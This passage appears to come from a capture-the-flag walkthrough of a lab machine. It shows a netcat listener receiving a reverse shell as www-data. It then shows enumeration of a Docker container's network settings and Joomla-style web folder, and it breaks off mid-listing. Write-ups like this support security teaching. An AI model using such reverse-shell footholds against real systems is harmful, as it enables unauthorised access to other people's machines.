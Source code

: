     
    
    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 33704
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@a7018bfdc454:/var/www/html$ 
    

I’ll upgrade the shell with `script` just like before.

`/home/user.txt` is the same as before.

### Docker

This is also a Docker container, and it has the IP 172.17.0.3, confirming my
guess from above.

    
    
    www-data@a7018bfdc454:/home$ ip addr
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
    6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
        link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
        inet 172.17.0.3/16 scope global eth0
           valid_lft forever preferred_lft forever
    

## Shell as www-data on Host

### Enumeration

This container is also pretty empty. In the web folders, one thing jumped out:

    
    
    www-data@a7018bfdc454:/var/www/html$ ls -l
    total 16976
    -rw-r--r--  1 www-data www-data   18092 Aug 14  2017 LICENSE.txt
    -rw-r--r--  1 www-data www-data    4874 Aug 14  2017 README.txt
    drwxr-xr-x 11 www-data www-data    4096 Aug 14  2017 administrator
    drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 bin
    drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 cache
    drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 cli
    drwxr-xr-x 20 www-data www-data    4096 Sep  3  2017 components
    -r--r--r--  1 www-data www-data    3053 Sep  6  2017 configuration.php
    -rwxrwxr-x  1 www-data www-data    3131 Sep  7  2017 entrypoint.sh
    drwxrwxrwx  2 root     root        4096 Jun 15 20:43 files
    -rw-rw-rw-  1 www-data www-data 5457775 Sep  8  2017 fs.out
    -rw-rw-rw-  1 www-data www-data 8005634 Sep  8  2017 fsall.out
    -rw-rw-rw-  1 www-data www-data 2044787 Sep  7  2017 goonthen.txt
    -rw-r--r--  1 www-data www-data    3005 Aug 14  2017 htaccess.txt
    drwxr-xr-x  5 www-data www-data    4096 Sep  6  2017 images
    drwxr-xr-x  2 www-data www-data    4096 Aug 14  2017 includes
    -rw-r--r--  1 www-data www-data    1420 Aug 14  2017 index.php
    drwxr-xr-x  4 www-data www-data    4096 Aug 14  2017 language
    drwxr-xr-x  5 www-data www-data    4096 Aug 14  2017 layouts
    drwxr-xr-x 11 www-data www-data    4096 Aug 14  2017 libraries
    -rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb
    -rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb.php
    drwxr-xr-x 26 www-data www-data    4096 Aug 14  2017 media
    -rw-rw-rw-  1 www-data www-data 1474911 Sep  7  2017 mod.out
    drwxr-xr-x 27 www-data www-data    4096 Aug 14  2017 modules
    -rw-rw-rw-  1 www-data www-data  252614 Sep  7  2017 onemoretry.txt
    -rw-rw-rw-  1 www-data www-data     793 Sep  8  2017 out.zip